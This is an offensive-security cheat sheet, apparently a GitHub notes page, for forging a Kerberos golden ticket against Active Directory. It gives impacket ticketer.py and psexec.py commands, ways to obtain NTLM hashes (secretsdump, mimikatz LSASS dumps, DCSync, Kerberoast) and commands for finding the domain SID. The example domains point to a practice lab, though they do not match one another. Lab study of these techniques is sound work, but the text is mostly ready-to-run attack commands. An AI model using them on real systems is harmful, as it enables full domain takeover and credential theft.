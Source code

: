 ### Requirements
- Knowledge of the domain name
- Knowledge of the domain SID
- The NTLM hash of the krbtgt account
- FQDN

```shell
ticketer.py -nthash 25b2076cda3bfd6209161a6c78a69c1c -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain jurassic.park administrator

export KRB5CCNAME=administrator.ccache

psexec.py sevenkingdoms.local/administrator@kingslanding.sevenkingdoms.local -k -no-pass
```



---

### getting `NTLM` hash or the plain password:

 1. using impacket-secretdump (has to be domain admin account) 
 ```shell
 impacket-secretsdump 'north.sevenkingdoms.local/vagrant:vagrant@192.168.56.11'
```
 
 2.  mimkatz LSASS dump
 3. DCSync attack 
 4. Kerberoast > Crack > NTLM
 ```shell
 # this will get us the NTLM hash
 echo -n 'Password123!' | iconv -f utf-8 -t utf-16le | openssl dgst -md4 
```

---
### Getting Domain SID:
its basically the first part of any SID object.
```powershell
nxc:
nxc ldap lol.local -u sqlsvc -p test -k --get-sid

ldapsearch:
ldapsearch -x -H ldap://<DC_IP> -b "" -s base objectSid

impacket-GetADUsers:
impacket-GetADUsers domain/user:password@<DC_IP> -all

rpcclient:
rpcclient $> lookupdomain north.sevenkingdoms.local
```


